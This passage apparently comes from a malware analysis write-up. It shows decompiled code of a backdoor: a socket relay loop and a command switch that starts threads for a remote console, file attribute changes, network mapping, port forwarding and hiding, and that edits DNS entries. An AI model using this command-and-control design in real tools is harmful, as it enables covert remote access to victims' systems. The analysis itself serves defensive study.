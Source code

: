 ```cpp
   }
   uVar3 = (uint32_t)arg2;
   if ((int32_t)(uint32_t)arg2 < 0) { uVar3 = (uint32_t)arg2 + 0x3f; }
  } while (((int64_t)(&readfds)[(int32_t)uVar3 >> 6] >> (((char)(uint32_t)arg2 + (uVar1 >> 2) & 0x3f) - (uVar1 >> 2) & 0x3f) & 1U) == 0);
  length = recv_((uint64_t)(uint32_t)arg2, (void *)((int64_t)&socket + 4), 0x1000);
  if (length < 1) { return 0;  }
  var_14h = send_((uint64_t)(uint32_t)socket, (char *)((int64_t)&socket + 4), (int64_t)length);
 } while (var_14h == length);
 return 0;
```
<h4>Once the data extract to the response of the DNS queries, that check by switch condition the code for initiating the commands to perform.</h4>

```cpp
switch((undefined4)var_34h) {
case 1: // 0x1 -> New thread for a console
 pthread_create(&var_1d8h, 0, PtyThread, &var_2f0h, in_R8, in_R9, uVar3, uVar5, uVar6);
 break;
case 2: // 0x2 -> New thread for change attributes of files
 pthread_create(&var_1d8h, 0, FileThread, &var_2f0h, in_R8, in_R9, uVar3, uVar5, uVar6);
 break;
case 5: // 0x5 -> New thread for mapping network
pthread_create(&var_1d8h, 0, PortMapThread, &var_2f0h, in_R8, in_R9, uVar3, uVar5, uVar6);
 break;
case 6: // 0x6 -> New thread for the port forwarding
 pthread_create(&var_1d8h, 0, PortforwardThread, &var_2f0h, in_R8, in_R9, uVar3, uVar5, uVar6);
 break;
case 7: // 0x7 -> New thread for hiding methods
 pthread_create(&var_1d8h, 0, HideThread, &var_2f0h, in_R8, in_R9, uVar3, uVar5, uVar6);
 break;
case 8: // 0x8 -> New thread for reading the configuration
 pthread_create(&var_1d8h, 0, ReadReConnConf, &var_2f0h, in_R8, in_R9, uVar3, uVar5, uVar6);
 break;
case 0xb: // 0xb -> Add to the DNS entry
 if (var_40h._4_4_ != 0) {
   ptr = (void *)malloc(var_40h._4_4_);
   if (ptr == (void *)0x0) goto code_r0x00403c59;
   memset(ptr, 0, var_40h._4_4_);
   iVar1 = saferecv((uint64_t)(uint32_t)fildes, (int64_t)ptr, (uint64_t)var_40h._4_4_);
   if (iVar1 == 0) goto code_r0x00403c59;
   encrypt_code(ptr, (uint64_t)var_40h._4_4_, (uint64_t)var_40h._4_4_);
   AddDNS(ptr, (uint64_t)(var_34h._4_4_ & 0xffff));
   free();
  }
  break;
case 0xc: // 0xc -> Remove to the DNS entry
 if (var_40h._4_4_ != 0) {
   ptr = (void *)malloc(var_40h._4_4_);
   if (ptr == (void *)0x0) goto code_r0x00403c59;
   memset(ptr, 0, var_40h._4_4_);
   iVar1 = saferecv((uint64_t)(uint32_t)fildes, (int64_t)ptr, (uint64_t)var_40h._4_4_);
   if (iVar1 == 0) goto code_r0x00403c59;
   encrypt_code(ptr, (uint64_t)var_40h._4_4_, (uint64_t)var_40h._4_4_);
   DelDNS((int64_t)ptr);
   free();
  }
 break;
 case 0xd: // 0xd -> Flush all the DNS configuration
  conf_DelAll_DNS();
 }
```
